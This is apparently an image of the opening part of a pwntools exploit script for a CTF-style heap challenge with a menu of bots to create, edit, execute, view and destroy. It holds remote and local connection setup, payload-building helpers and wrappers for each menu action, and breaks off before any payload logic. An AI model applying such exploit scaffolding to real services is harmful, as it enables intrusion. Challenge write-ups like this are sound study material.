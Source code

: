 ```py
    #b free@plt
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data

def create(power: int, spec: int):
    log.info("create")
    ru(b"5) Destroy a bot\n\n> ")
    sl(b"1")
    ru(b"> ")
    sl(str(power).encode())
    ru(b"> ")
    sl(str(spec).encode())

def view():
    log.info("view")
    ru(b"5) Destroy a bot\n\n> ")
    sl(b"3")
    return io.recvuntil(b"What is the next action?", drop=True)

def edit(bot: int, command: bytes):
    log.info("edit")
    ru(b"5) Destroy a bot\n\n> ")
    sl(b"2")
    ru(b"> ") 
    sl(str(bot).encode())
    ru(b"> ")
    sl(command)


def execute(bot: int):
    log.info("execute")
    ru(b"5) Destroy a bot\n\n> ")
    sl(b"4")
    ru(b"> ")
    sl(str(bot).encode())
    return io.recvuntil(b"What is the next action?", drop=True)


def destroy(bot: int):
```